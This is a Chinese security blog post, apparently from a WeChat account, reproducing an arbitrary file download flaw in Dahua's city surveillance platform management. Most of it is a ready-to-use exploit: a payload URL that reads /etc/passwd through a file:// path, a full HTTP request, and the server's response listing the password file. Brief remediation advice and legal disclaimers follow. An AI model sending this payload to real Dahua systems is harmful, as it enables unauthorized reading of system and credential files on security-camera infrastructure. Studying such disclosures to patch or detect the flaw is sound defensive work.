 #  大华 城市安防监控系统平台管理 任意文件下载漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#监控系统 1 个

#漏洞 33 个

#漏洞复现 39 个

#复现 24 个

#文件读取 12 个

**本文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**

 **漏洞说明**

大华城市安防监控系统平台是一款集视频、报警、存储、管理于一体的综合安防解决方案。该平台支持多种接入方式，包括网络视频、模拟视频、数字视频、IP电话、对讲机等。此外，该平台还支持多种报警方式，包括移动侦测、区域入侵、越线报警、人员聚集等。

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

 **影响版本**

  * 

    
    
     大华城市安防监控系统平台管理

 **漏洞复现**

![](https://gitee.com/fuli009/images/raw/master/public/20230714175535.png)

payload:

  * 

    
    
    /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd

请求包：  

  *   *   *   *   *   *   *   * 

    
    
    GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1Host: ip:portUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close

响应包：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKServer: Apache-Coyote/1.1Set-Cookie: JSESSIONID=23A98843BC5D957E2E1F65C0ED593393; Path=/portalContent-disposition: attachment;filename=passwdDate: Sun, 09 Jul 2023 23:57:00 GMTConnection: close  
    root:x:0:0:root:/root:/bin/bashbin:x:1:1:bin:/bin:/sbin/nologindaemon:x:2:2:daemon:/sbin:/sbin/nologinadm:x:3:4:adm:/var/adm:/sbin/nologinlp:x:4:7:lp:/var/spool/lpd:/sbin/nologinsync:x:5:0:sync:/sbin:/bin/syncshutdown:x:6:0:shutdown:/sbin:/sbin/shutdownhalt:x:7:0:halt:/sbin:/sbin/haltmail:x:8:12:mail:/var/spool/mail:/sbin/nologinnews:x:9:13:news:/etc/news:uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologinoperator:x:11:0:operator:/root:/sbin/nologingames:x:12:100:games:/usr/games:/sbin/nologingopher:x:13:30:gopher:/var/gopher:/sbin/nologinftp:x:14:50:FTP User:/var/ftp:/sbin/nologinnobody:x:99:99:Nobody:/:/sbin/nologindbus:x:81:81:System message bus:/:/sbin/nologinvcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologinnscd:x:28:28:NSCD Daemon:/:/sbin/nologinrpm:x:37:37::/var/lib/rpm:/sbin/nologinhaldaemon:x:68:68:HAL daemon:/:/sbin/nologinnetdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bashident:x:98:98::/home/ident:/sbin/nologinsshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologinrpc:x:32:32:Portmapper RPC user:/:/sbin/nologinrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologinnfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologinmailnull:x:47:47::/var/spool/mqueue:/sbin/nologinsmmsp:x:51:51::/var/spool/mqueue:/sbin/nologinpcap:x:77:77::/var/arpwatch:/sbin/nologinapache:x:48:48:Apache:/var/www:/sbin/nologinsquid:x:23:23::/var/spool/squid:/sbin/nologinwebalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologinxfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologinntp:x:38:38::/etc/ntp:/sbin/nologingdm:x:42:42::/var/gdm:/sbin/nologinhtt:x:100:101:IIIMF Htt:/usr/lib/im:/sbin/nologinpvm:x:24:24::/usr/share/pvm3:/bin/bashcanna:x:39:39:Canna Service User:/var/lib/canna:/sbin/nologinwnn:x:49:49:Wnn Input Server:/var/lib/wnn:/sbin/nologinquagga:x:92:92:Quagga routing suite:/var/run/quagga:/sbin/nologincyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bashdovecot:x:97:97:dovecot:/usr/libexec/dovecot:/sbin/nologinpostfix:x:89:89::/var/spool/postfix:/sbin/nologinmailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologinpostgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bashamanda:x:33:6:Amanda user:/var/lib/amanda:/bin/bashfax:x:78:78:mgetty fax spool user:/var/spool/fax:/sbin/nologinnamed:x:25:25:Named:/var/named:/sbin/nologinexim:x:93:93::/var/spool/exim:/sbin/nologinldap:x:55:55:LDAP User:/var/lib/ldap:/bin/falseradiusd:x:95:95:radiusd user:/:/bin/falseradvd:x:75:75:radvd user:/:/sbin/nologinadmin:x:506:506:root:/home/admin:/etc/dh_cli/debugguest:x:507:507:Linux User,,,:/home/guest:/bin/nologinftpuser:x:508:508:Linux User,,,:/home/ftpuser:/bin/nologindh_admin:x:509:509:Linux User,,,:/home/dh_admin:/etc/dh_cli/debugmysql:x:501:501::/home/mysql:/sbin/nologinsystem:x:510:510:Linux User,,,:/home/system:/sbin/nologindss:x:1000:1000:Linux User,,,:/opt/ftp:/sbin/nologinlog:x:1001:1001:Linux User,,,:/log:/bin/sh

![](https://gitee.com/fuli009/images/raw/master/public/20230714175536.png)

 **修复建议**  

配置文件：在配置文件中限制访问的文件目录，比如 PHP 中 php.ini 配置 open_basedir  
特殊字符过滤：检查用户输入，过滤或转义含有“../”、“..\”、“%00”，“..”，“./”，“#”等跳转目录或字符终止符、截断字符的输入  
合法性判断：严格过滤用户输入字符的合法性，比如文件类型、文件地址、文件内容等  
白名单：白名单限定访问文件的路径、名称及后缀名  

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

